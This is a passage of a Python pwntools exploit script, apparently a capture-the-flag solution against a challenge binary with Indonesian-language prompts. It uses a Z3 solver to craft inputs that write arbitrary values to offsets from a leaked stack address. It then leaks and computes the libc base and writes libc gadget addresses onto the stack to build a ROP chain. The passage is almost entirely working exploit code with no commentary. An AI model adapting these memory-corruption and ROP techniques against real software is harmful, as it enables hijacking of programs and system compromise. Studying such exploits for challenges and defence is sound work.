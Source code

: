 ```py
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(0))
	p.sendlineafter("baru:", str(address))
	# pause()
	p.sendlineafter("nomor bilangan:", str(2))

	s = Solver()
	x = BitVec('x', 64)
	if(aaa):
		x = BitVec('x', 32)
		s.add(x < 0x7fffffff)
	s.add((((4294967233 - x) & 0xffffffff) ^ (((4294967233 - x) & 0xffffffff) >> 0x1f)) - (((4294967233 - x) & 0xffffffff) >> 0x1f) == amount - 0x3f)
	s.check()
	hehe = s.model()[x]
	print(hehe)
	p.sendlineafter("baru:", str(hehe))

adder(0x6b, stack_leak + 0x128)
adder((stack_leak + 0x1d0) & 0xffffffff, stack_leak + 0x130, aaa=True)
adder((stack_leak + 0x1d0) >> 32, stack_leak + 0x134, aaa=True)
adder(0x634, stack_leak + 0x138)
adder(0x7ffffc38, stack_leak + 0x158)
adder(0x7ffffc38, stack_leak + 0x158)
# adder(0x330394ad, stack_leak + 0x158)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff+3, stack_leak + 0x15c)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0xc4, stack_leak + 0x160)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff+3, stack_leak + 0x164)
adder(0x6f0, stack_leak + 0x170)

# pause()

p.sendlineafter("(Y/N)", 'N')
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x228190

print(hex(libc_base))

adder(0x4a7, stack_leak + 0x178, not_help=False)

adder(0x62, stack_leak + 0x168)

# adder((libc_base + 0x0000000000026b6e) & 0xffffffff, stack_leak + 180)
# while(p.recvuntil("menang!", timeout=1) == b''):
# adder((libc_base + 0x0000000000026b6e) >> 32, stack_leak + 0x184)
adder((libc_base + 0x0000000000027b72) & 0xffffffff, stack_leak + 0x1a0,aaa=True)
adder((libc_base + 0x0000000000027b72) >> 32, stack_leak + 0x1a4,aaa=True)
adder((libc_base + 0x1b85aa) & 0xffffffff, stack_leak + 0x1a8,aaa=True)
adder((libc_base + 0x1b85aa) >> 32, stack_leak + 0x1ac,aaa=True)
adder((libc_base + 0x000000000004a1f3) & 0xffffffff, stack_leak + 0x1b0,aaa=True)
adder((libc_base + 0x000000000004a1f3) >> 32, stack_leak + 0x1b4,aaa=True)
adder((libc_base + 0x00000000000286e7) & 0xffffffff, stack_leak + 0x1d8,aaa=True)
```